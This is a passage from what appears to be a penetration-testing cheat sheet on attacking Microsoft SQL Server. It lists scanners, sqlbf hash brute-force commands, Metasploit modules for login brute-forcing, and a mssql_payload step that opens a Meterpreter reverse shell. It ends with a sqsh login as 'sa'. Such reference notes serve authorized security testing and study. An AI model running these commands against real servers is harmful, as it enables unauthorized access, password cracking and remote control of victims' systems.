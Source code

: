 ```
* [SQLPing](https://en.kali.tools/all/?tool=1338\&PageSpeed=noscript) - SQL Server scanning tool that also checks for weak passwords using wordlists.
* [SQLpoke](https://www.vulnerabilityassessment.co.uk/sqlpoke.htm)- SQL Server scanning tool&#x20;

```
>sqlpoke [Start IP] [End IP] [Port] [Command File]
```

* [SQL Recon](https://www.specialopssecurity.com/tools/sqlrecon/) - performs both active and passive scans of your network in order to identify all of the SQL Server/MSDE installations in your enterprise
{% endtab %}

{% tab title="Brute Force" %}
```
#sqlbf -u hashes.txt -d dictionary.dic -r out.rep (dictionary Attack)
#sqlbf -u hashes.txt -c default.cm -r out.rep (Brute-Force attack
```
{% endtab %}

{% tab title="Metasploit" %}
Enumerate MSSQL Servers on the network

* ```
  msf > use auxiliary/scanner/mssql/mssql_ping
  $ nmap -sU --script=ms-sql-info $ip
  ```

Bruteforce MsSql

* ```
  msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login
  ```

Gain shell using gathered credentials

* ```
  msf > use exploit/windows/mssql/mssql_payload
      msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
  ```

Log in to a MsSql server:

```
# root@kali:~/dirsearch# cat ../.freetds.conf
[someserver]
host = $ip
port = 1433
tds version = 8.0
user=sa

root@kali:~/dirsearch# sqsh -S someserver -U sa -P PASS -D DB_NAME
```
{% endtab %}
